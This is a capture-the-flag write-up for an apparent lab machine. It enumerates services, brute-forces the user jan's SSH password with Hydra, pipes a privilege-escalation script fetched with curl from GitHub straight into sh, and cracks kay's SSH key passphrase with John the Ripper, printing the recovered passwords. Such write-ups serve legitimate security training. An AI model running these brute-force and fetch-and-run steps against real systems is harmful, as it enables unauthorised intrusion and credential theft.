 # CTF Writeup -- Exploiting Weak Credentials and Privilege Escalation

## Enumeration

### Nmap Scan

Initial port scanning revealed several open services:

``` bash
nmap -sC -sV 10.201.123.193
```

    Not shown: 994 closed ports
    PORT     STATE SERVICE
    22/tcp   open  ssh
    80/tcp   open  http
    139/tcp  open  netbios-ssn
    445/tcp  open  microsoft-ds
    8009/tcp open  ajp13
    8080/tcp open  http-proxy
    MAC Address: 16:FF:C4:EE:07:79 (Unknown)

The box is running SSH, web services (port 80 & 8080), and SMB
(139/445).

------------------------------------------------------------------------

### Web Enumeration

Using **Gobuster** against the HTTP service on port 80 uncovered an
interesting `/development` directory:

``` bash
gobuster dir -u http://10.201.123.193 -w /usr/share/wordlists/dirb/common.txt
```

    /development          (Status: 301) [--> http://10.201.123.193/development/]
    /index.html           (Status: 200)
    /server-status        (Status: 403)

Inside `/development`, there were developer notes hinting that the user
**jan** had a weak password.

------------------------------------------------------------------------

### SMB Enumeration

Running **enum4linux** against the target listed three valid local
users:

``` bash
enum4linux -a 10.201.123.193
```

    S-1-22-1-1000 Unix User\kay (Local User)
    S-1-22-1-1001 Unix User\jan (Local User)
    S-1-22-1-1002 Unix User\ubuntu (Local User)

Combined with the hint from `/development`, this suggested brute forcing
**jan's SSH password**.

------------------------------------------------------------------------

## Exploitation

### SSH Brute Force

Using **Hydra** with the RockYou wordlist:

``` bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.201.123.193 -t 4
```

Successful credentials:

    jan : armando

We can now SSH into the machine as **jan**.

------------------------------------------------------------------------

## Privilege Escalation

### Enumeration with LinPEAS

After gaining a foothold, ran **LinPEAS** to enumerate privilege
escalation vectors:

``` bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

LinPEAS discovered an SSH private key (`id_rsa`) belonging to user
**kay**.

------------------------------------------------------------------------

### Cracking the Private Key

The key was encrypted, so it was converted into a hash and cracked with
**John the Ripper**:

``` bash
ssh2john id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

The passphrase was cracked:

    beeswax

------------------------------------------------------------------------

### Access as Kay

Using the decrypted private key, we SSH'd into the box as **kay**:

``` bash
ssh -i id_rsa kay@10.201.123.193
```

Inside kay's home directory was a file named `pass.bak`.

``` bash
cat pass.bak
```

This revealed the **final flag**.

------------------------------------------------------------------------

## Conclusion

This machine required:

-   Enumeration of SMB and web services\
-   Identifying weak SSH credentials (jan → armando)\
-   Privilege escalation via Kay's SSH private key (passphrase:
    beeswax)\
-   Extracting the final flag from Kay's account
